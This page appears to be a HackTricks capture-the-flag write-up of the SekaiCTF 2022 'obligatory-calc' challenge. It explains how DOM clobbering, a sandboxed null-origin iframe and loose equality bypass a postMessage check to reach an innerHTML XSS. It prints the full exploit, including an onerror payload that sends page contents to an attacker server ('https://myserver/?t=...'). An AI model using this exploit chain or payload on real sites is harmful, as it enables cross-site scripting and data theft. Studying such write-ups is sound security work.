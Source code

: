 # Bypassing SOP with Iframes - 2

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making **`window.calc.contentWindow`** to **`undefined`** and **`e.source`** to **`null`**:

- **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  - Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  - Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement("iframe")
document.body.appendChild(iframe)
window.target = window.open("http://localhost:8080/")
await new Promise((r) => setTimeout(r, 2000)) // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`)
document.body.removeChild(iframe) //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

- Sending `token` in the postMessage with value `null` is trivial.
- **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
  <body>
    <script>
      // Abuse "expr" param to cause a HTML injection and
      // clobber document.getElementById and make window.calc.contentWindow undefined
      open(
        'https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"'
      )

      function start() {
        var ifr = document.createElement("iframe")
        // Create a sandboxed iframe, as sandboxed iframes will have origin null
        // this null origin will document.cookie trigger an error and window.token will be undefined
        ifr.sandbox = "allow-scripts allow-popups"
        ifr.srcdoc = `<script>(${hack})()<\/script>`

        document.body.appendChild(ifr)

        function hack() {
          var win = open("https://obligatory-calc.ctf.sekai.team")
          setTimeout(() => {
            parent.postMessage("remove", "*")
            // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
            // token=null equals to undefined and e.source will be null so null == undefined
            win.postMessage(
              {
                token: null,
                result:
                  "<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>",
              },
              "*"
            )
          }, 1000)
        }

        // this removes the iframe so e.source becomes null in postMessage event.
        onmessage = (e) => {
          if (e.data == "remove") document.body.innerHTML = ""
        }
      }
      setTimeout(start, 1000)
    </script>
  </body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}
